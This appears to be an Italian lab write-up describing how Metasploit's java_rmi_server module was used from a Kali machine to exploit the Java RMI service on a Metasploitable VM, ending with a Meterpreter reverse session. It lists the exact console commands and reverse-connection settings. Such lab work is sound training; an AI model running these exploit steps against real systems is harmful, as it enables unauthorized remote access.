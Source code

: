 # 🌟 Sfruttamento del Servizio Java RMI su Metasploitable 🌟

## 🚀 Introduzione
Questo esercizio aveva l'obiettivo di sfruttare una vulnerabilità del servizio Java RMI presente sulla macchina virtuale Metasploitable. Il processo di sfruttamento ha utilizzato Metasploit per ottenere una sessione remota Meterpreter sulla macchina vittima. Le evidenze raccolte includono la configurazione di rete e la tabella di routing della macchina vittima.

---

## ⚙️ Configurazione dell'Ambiente

### 🖥️ Macchine:
- **💻 Macchina Attaccante (Kali Linux)**: `192.168.11.111`
- **🎯 Macchina Vittima (Metasploitable)**: `192.168.11.112`

---

## 🛠️ Processo di Sfruttamento

### 1️⃣ Avvio di Metasploit
Il framework Metasploit è stato avviato utilizzando:
```bash
msfconsole
```

### 2️⃣ Configurazione dell'Exploit
È stato selezionato e configurato il modulo di exploit `exploit/multi/misc/java_rmi_server`:
```bash
use exploit/multi/misc/java_rmi_server
```
#### 🔧 Dettagli della Configurazione:
- **🎯 RHOSTS**: `192.168.11.112` (macchina vittima)
- **🔌 RPORT**: `1099` (porta Java RMI)
- **📡 LHOST**: `192.168.11.111` (macchina attaccante)
- **🔑 LPORT**: `4444` (porta per la connessione inversa)
- **⏳ HTTPDELAY**: `20` (modificato per gestire i problemi di timeout)

💻 **Comandi eseguiti:**
```bash
set RHOSTS 192.168.11.112
set RPORT 1099
set LHOST 192.168.11.111
set LPORT 4444
set HTTPDELAY 20
```

### 3️⃣ Esecuzione dell'Exploit
L'exploit è stato eseguito con successo:
```bash
exploit
```
🎉 **Risultato:** Una sessione Meterpreter è stata stabilita con la macchina vittima.

---